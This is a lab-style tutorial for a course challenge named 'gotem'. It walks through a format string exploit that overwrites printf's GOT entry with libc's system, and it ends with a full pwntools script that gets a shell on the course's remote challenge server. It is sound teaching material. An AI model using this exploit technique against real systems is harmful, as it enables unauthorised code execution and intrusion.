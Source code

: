 ```yaml
---
description: Using format strings to write to the GOT table.
---
```


# gotem

{% file src="../../.gitbook/assets/gotem.zip" %}

Our goal in this binary is to overwrite a function's address inside the GOT table. This will hijack the function's behavior, meaning we can call that function and force it to call another.

To ensure we can do this, we check the security to ensure that RELRO is not fully enabled:

```nasm
$ checksec gotem
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/08-got/gotem/src/gotem'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX unknown - GNU_STACK missing
    PIE:      No PIE (0x8048000)
    Stack:    Executable
    RWX:      Has RWX segments
```

We see this binary has **Partial RELRO**. This means the GOT table was moved above the program variables, meaning we can't ever overflow into the GOT. This doesn't mean we can't overwrite its contents using another method (like a format string vulnerability).

There are lots of other vulnerabilities in this binary. We also notice that PIE is turned off, which is good for us. This means that we have the absolute address of the GOT table, so we can overwrite it. _For this binary, we will assume that ASLR is **disabled**._

### Static Analysis

The code in this binary is definitely interesting. If we look at the `read_in` function, we notice some interesting features:

* The end of the function has no return. The end of the function jumps back to `read_in + 21`. _This is an infinite `while` loop_. We'll need to consider how we can take advantage of this.
*   This binary features a secure `fgets` call that reads in `0x12c` bytes into a `0x134` byte buffer. This means we can't overflow the buffer.

    ```nasm
       0x080491e1 <+59>:	mov    eax,DWORD PTR [ebx-0x8]
       0x080491e7 <+65>:	mov    eax,DWORD PTR [eax]
       0x080491e9 <+67>:	sub    esp,0x4
       0x080491ec <+70>:	push   eax
       0x080491ed <+71>:	push   0x12c
       0x080491f2 <+76>:	lea    eax,[ebp-0x134]
       0x080491f8 <+82>:	push   eax
    => 0x080491f9 <+83>:	call   0x8049070 <fgets@plt>
    ```
* This binary has a clear format string vulnerability. We can use this to perform arbitrary reads or, more importantly, arbitrary writes.

The existence of the infinite loop means we can continue to write data. We're writing to the same secure buffer, so this doesn't mean we can overflow it. Let's think about our attack vector.

* We need to overwrite the GOT table. To do this, we need to perform an arbitrary write.
* We can use the first iteration of the loop to find out where we write in memory. Like [format](../03-formats/format.md), we'll put the address we want to write at this location.
* We then need to find the difference in offset between the function we choose to overwrite and what we want the new function to be. In this case, we choose to overwrite `printf` because it directly calls our input string, and we will overwrite it with the address of `system`.
* Finally, by passing `/bin/sh` as our input, `system` will be called instead of `/bin/sh` and we will get a shell.

Let's make it happen!

### Writing the Exploit

We know how to do format strings to perform arbitrary writes. We can actually get pwntools to do this for us using their `fmtstr_payload` function. This function takes two arguments:

1. The offset to the address (i.e., which argument we'd use for `%n`)
2. A dictionary containing the address we are changing and the value we want to change it to.

In this case, we want to change the fifth argument (_verify this for yourself!_). We want to change the address of `printf` in the GOT table to the `libc` address of `system`. This makes our payload string look like:

```python
payload = fmtstr_payload(5, {elf.got.printf : libc.sym.system})
```

This saves us a lot of time calculating the number of bytes we need to write, writing those bytes, and then using the `%n` identifier to write the correct number of bytes. We can just use the `fmtstr_payload` function to do it for us.

Remember that if we don't initialize the base address of `libc`, it will just use an offset. We need to get the base address. Since ASLR is turned off, this is a hardcoded value. We can get this by running `ldd` on the binary to check the dynamic linker:

```nasm
$ ldd gotem
	linux-gate.so.1 (0xf7fc4000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xf7c00000)
	/lib/ld-linux.so.2 (0xf7fc6000)
```

This tells us that `libc` is located at `0xf7c00000`. When we make the exploit, we'll use this as the base address for `libc` before using any `libc` functions.

This makes our full exploit look like:

{% code title="exploit.py" lineNumbers="true" %}
```python
from pwn import *

elf = context.binary = ELF('./gotem')
libc = elf.libc
libc.address = 0xf7c00000
p = remote('vunrotc.cole-ellis.com', 8100)

payload = fmtstr_payload(5, {elf.got.printf : libc.sym.system})

p.recvline()
p.sendline(payload)
p.interactive()
```
{% endcode %}

This will get us shell on the remote server and hence our flag!
